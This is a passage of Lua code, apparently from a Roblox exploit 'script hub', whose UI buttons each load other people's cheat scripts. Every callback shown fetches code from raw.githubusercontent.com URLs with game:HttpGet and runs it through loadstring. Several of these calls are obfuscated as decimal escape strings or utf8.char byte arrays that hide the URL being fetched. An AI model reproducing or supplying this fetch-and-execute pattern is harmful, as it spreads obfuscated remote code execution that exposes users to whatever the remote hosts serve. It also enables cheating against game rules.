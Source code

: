loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\115\109\115\109\100\109\115\109\115\107\47\87\107\115\107\115\111\47\114\101\102\115\47\104\101\97\100\115\47\109\97\105\110\47\69\87\79\74\79\34\41\41\40\41")()

end
})
local Tab = Window:MakeTab({
  Name = "别人的脚本",
  Icon = "rbxassetid://4483345998",
  PremiumOnly = false
  })
 Tab:AddButton({
	Name = "情云",
	Callback = function()
	
loadstring(utf8.char((function() return table.unpack({108,111,97,100,115,116,114,105,110,103,40,103,97,109,101,58,72,116,116,112,71,101,116,40,34,104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,67,104,105,110,97,81,89,47,45,47,109,97,105,110,47,37,69,54,37,56,51,37,56,53,37,69,52,37,66,65,37,57,49,34,41,41,40,41})end)()))()

end
})
Tab:AddButton({
	Name = "落叶",
	Callback = function()
	
getgenv().LS="落叶中心" loadstring(game:HttpGet("https://raw.githubusercontent.com/krlpl/Deciduous-center-LS/main/%E8%90%BD%E5%8F%B6%E4%B8%AD%E5%BF%83%E6%B7%B7%E6%B7%86.txt"))()

end
})
Tab:AddButton({
	Name = "XK",
	Callback = function()
	
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\66\73\78\106\105\97\111\98\122\120\54\47\66\73\78\106\105\97\111\47\109\97\105\110\47\88\75\46\84\88\84\34\41\41\40\41\10")()

end
})
Tab:AddButton({
	Name = "皮",
	Callback = function()
	
getgenv().XiaoPi="皮脚本QQ群1002100032" loadstring(game:HttpGet("https://raw.githubusercontent.com/xiaopi77/xiaopi77/main/QQ1002100032-Roblox-Pi-script.lua"))()
end
})
Tab:AddButton({
	Name = "导管",
	Callback = function()
	